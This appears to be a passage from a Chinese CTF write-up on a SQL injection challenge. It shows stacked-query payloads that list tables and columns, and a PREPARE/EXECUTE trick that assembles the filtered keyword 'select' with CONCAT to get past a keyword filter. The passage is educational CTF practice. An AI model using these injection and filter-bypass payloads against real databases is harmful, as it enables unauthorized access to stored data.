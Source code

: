 爆表如下： 

<div align=center><img src="../images/2024/08/03/QWB2019/QWB2019_2.png" alt="QWB2019_2" border="0" width="80%" height="60%"></div>

可以发现有一个表有两个，尝试用 ``0';select * from `1919810931114514` `` （**注意如果表名全是数字，一点一点要加反引号包裹，这个很重要，不然没有回显**）

很可惜，关键词 `select` 被过滤掉了。

尝试 ``0';show columns from `1919810931114514`#`` （记得反引号），结果如下

<div align=center><img src="../images/2024/08/03/QWB2019/QWB2019_3.png" alt="QWB2019_3" border="0" width="80%" height="60%"></div>

现在知道flag数据存在表`` `1919810931114514` ``下.

#### 法一：用储存过程绕过（利用prepare语句）

```
0';
SET @a = CONCAT('selec','t * from `1919810931114514`;');
// SET赋加代码在变量 @a 上，这里的@号必须加
// CONCAT函数用来拼接字符串，从而绕过过滤

PREPARE test from @a; 
// 利用prepare预处理语句，把 @a的命令用 test来储存（test可以随便命名）
//这里PREPARE必须大写，不然会报错，不知道为啥

EXECUTE test;#
// 执行 test命令。 用#把后面的SQL代码注释掉
```
